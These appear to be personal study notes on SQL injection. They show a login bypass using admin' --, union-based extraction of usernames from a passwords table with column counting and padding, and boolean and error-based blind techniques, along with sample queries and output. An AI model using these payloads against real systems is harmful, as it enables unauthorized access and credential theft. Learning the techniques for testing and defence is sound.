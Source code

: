 
login: admin
password: dog
```

select * from users where username='admin'
```


login: admin' --
```
										   -> COMMENTED OUT
select * from users where username='admin' --' AND PASSWORD='X'
```

# TYPES OF SQLI

![](Pasted%20image%2020250405000042.png)

7
# UNION BASED SQL INJECTION

#### rules
- **number of columns matter**,   if the original query selects 2 values, the union must also select 2 values. 
	 enumerate number of columns with
```
order by  n--      #where n is a number and the -- is the injection comment out
```
![](Pasted%20image%2020250405002249.png)

- **data type matters**, make sure the value that union is selecting has the same data type as the original statement. `a` string/char/varchar type 
`select username, password`
` column 1, column 2` both column 1 and 2 data type must match eg: `string`
 
 ---
## Un-even Columns

We will find out that the original query will usually not have the same number of columns as the SQL query we want to execute, so we will have to work around that. For example, suppose we only had one column. In that case, we want to `SELECT`, we can put junk data for the remaining required columns so that the total number of columns we are `UNION`ing with remains the same as the original query.

For example, we can use any string as our junk data, and the query will return the string as its output for that column. If we `UNION` with the string `"junk"`, the `SELECT` query would be `SELECT "junk" from passwords`, which will always return `junk`. We can also use numbers. For example, the query `SELECT 1 from passwords` will always return `1` as the output.

Note: When filling other columns with junk data, we must ensure that the data type matches the columns data type, otherwise the query will return an error. For the sake of simplicity, we will use numbers as our junk data, which will also become handy for tracking our payloads positions, as we will discuss later.

Tip: For advanced SQL injection, we may want to simply use 'NULL' to fill other columns, as 'NULL' fits all data types.

The `products` table has two columns in the above example, so we have to `UNION` with two columns. If we only wanted to get one column 'e.g. `username`', we have to do `username, 2`, such that we have the same number of columns:

Code: sql

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
```

If we had more columns in the table of the original query, we have to add more numbers to create the remaining required columns. For example, if the original query used `SELECT` on a table with four columns, our `UNION` injection would be:

Code: sql

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '
```

This query would return:
```shell-session
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+
```

As we can see, our wanted output of the '`UNION SELECT username from passwords`' query is found at the first column of the second row, while the numbers filled the remaining columns.



## locations where database queries can be ran and injection points
### query parameters
```
?category=bags
```

## Blind based SQL injection

### BOLEAN BASED
look for indicator of success /false
ex: welcome back`1` , no welcome back `0`

### error based
error = false
no error = true

